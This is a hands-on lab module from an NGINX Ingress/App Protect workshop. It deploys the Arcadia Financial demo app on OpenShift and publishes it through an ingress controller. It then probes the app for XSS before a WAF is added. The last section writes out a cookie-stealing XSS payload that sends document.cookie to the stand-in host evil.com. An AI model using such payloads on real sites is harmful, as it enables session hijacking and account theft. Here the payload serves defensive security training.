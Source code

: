 Access Arcadia app without NGINX App Protect to establish a baseline
------------------------------------------------

== Cleanup Process

Upon the completion of Lab Module 1, it's necessary to tidy up the lab
environment. Please follow the steps mentioned below.

Execute the following commands in the bash terminal:

____
[source,bash]
----
oc delete  virtualserver arcadia
oc delete  -f arcadia.yml 
----
____

== Deploy the Arcadia Application into Kubernetes

____
[NOTE]
.Note
====
The Arcadia Financial application is the same application we introduced
in Module 1, but a different version with enhanced features which will
be used for our security lab exercises.
====

Before we can access the Arcadia application, we need to deploy it into
our Kubernetes cluster. To do this, we'll use a single manifest file
that contains the necessary resources, such as Kubernetes deployments
for the four Docker containers and Kubernetes services for the four
Docker containers.

To get the YAML file, we'll use the following command in our terminal
window:

[source,bash]
----
wget https://raw.githubusercontent.com/ericzji/nginx-openshift-lab/main/docs/class1/module2/templates/arcadia-all.yaml
----

Once we have the YAML file, we can apply it to our Kubernetes cluster
with the following command:

[source,bash]
----
oc apply -f ./arcadia-all.yaml
----

We can check that our Arcadia application is running by using the
following command in our terminal window:

[source,bash]
----
oc get services
----

This will show us the services running in our Kubernetes cluster,
including those related to the Arcadia application.
____

== Export the NGINX Ingress Controller services

____
Interacting with the NGINX Ingress Controller is more comfortable with
exporting the service External IPs into system variables. This allows
for templating to take place when we expose our applications.

In the terminal window copy the below text and paste+enter:

[source,bash]
----
export nginx_ingress=$(oc get svc my-nginx-ingress-controller --namespace=nginx-ingress | tr -s " " | cut -d' ' -f4 | grep -v "EXTERNAL-IP")
----
____

== Publish Arcadia app with NGINX Plus Ingress Controller

____
--
Now that we have our Arcadia application deployed in our Kubernetes
cluster, we need to publish it using the NGINX Plus Ingress Controller.
We'll do this by re-creating the NGINX Ingress Controller with Basic
HTTP using the following command in our terminal window:

This command creates a VirtualServer resource for our Arcadia
application, which includes the host for the NGINX Ingress Controller
and the upstreams for the different microservices. We can now access our
Arcadia application externally using the NGINX Ingress Controller URL,
which can be found by running the following command in our terminal
window:

____
[source,bash]
----
echo "NGINX Ingress Controller URL: http://$nginx_ingress/"
----
____

Once we have the URL, we can access our Arcadia application by opening
it in a web browser.

You should be presented with the Main page, click on Login and enter the
credentials as below.

[source,]
----
Username: matt
Password: ilovef5
----

When you click on Log me in, you should be presented with Arcadia
application that consist of four microservices

image:./pictures/image10.png[image]

Congratulations!

You have now successfully deployed the application in K8s cluster and
published it externally using the NGINX Plus Ingress controller

--
____

== Is our application protected against Layer 7 attacks?

Before we can protect our Arcadia application with NGINX App Protect, we
need to check if it's currently vulnerable to Layer 7 attacks. We can do
this by executing a simple XSS attack, which is a well-known OWASP top
10 attack.

To perform the XSS attack, we can launch the Firefox browser and append
`?a=<script>` to the end of the application URL. If the request is
allowed, then our application is vulnerable to XSS attacks.

image:./pictures/image11.png[image]

We can further test this by appending
`?item='><script>document.location='http://evil.com/steal'+document.cookie</script>`
to the application URL, which will attempt to steal our document cookie.
If this request is also allowed, then a bad actor could potentially
steal sensitive information from our application user

image:./pictures/image12.png[image]

Since our application is currently vulnerable to Layer 7 attacks, we'll
need to protect it using NGINX App Protect in the following Lab.
